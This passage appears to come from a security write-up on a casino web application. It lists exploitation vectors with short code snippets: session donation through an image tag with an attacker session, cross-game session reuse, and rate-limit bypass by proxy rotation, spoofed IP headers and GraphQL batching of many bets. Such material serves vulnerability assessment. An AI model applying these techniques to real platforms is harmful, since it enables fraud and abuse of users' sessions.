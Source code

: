 2. **Session Donation Attack**
```javascript
// Set victim's session to attacker-controlled session
<img src="https://casino.com/api/auth?session=ATTACKER_SESSION">
// Victim clicks, uses attacker's session
// Attacker sees all victim's actions
```

3. **Cross-Game Session Sharing**
```javascript
// Use session from one game in another
// Exploit privilege differences
Game1 (low stakes): session_abc123
Game2 (high stakes): session_abc123  // Same session!
```

---

### 6. **API Rate Limiting Bypass**

**Vulnerability:** Insufficient rate limiting on critical endpoints

**Exploitation Vectors:**

1. **IP Rotation**
```python
import requests

proxies = [
    "http://proxy1.com:8080",
    "http://proxy2.com:8080",
    # ... 1000 proxies
]

for proxy in proxies:
    requests.post('/api/bet/place', 
        proxies={'http': proxy},
        json={'amount': 100})
```

2. **Header Manipulation**
```javascript
// Bypass IP-based limiting
Headers: {
  'X-Forwarded-For': '1.2.3.4',
  'X-Real-IP': '5.6.7.8',
  'X-Client-IP': '9.10.11.12'
}
```

3. **GraphQL Batching**
```graphql
mutation {
  bet1: placeBet(amount: 100) { success }
  bet2: placeBet(amount: 100) { success }
  bet3: placeBet(amount: 100) { success }
  # ... 1000 bets in single request
}
```

---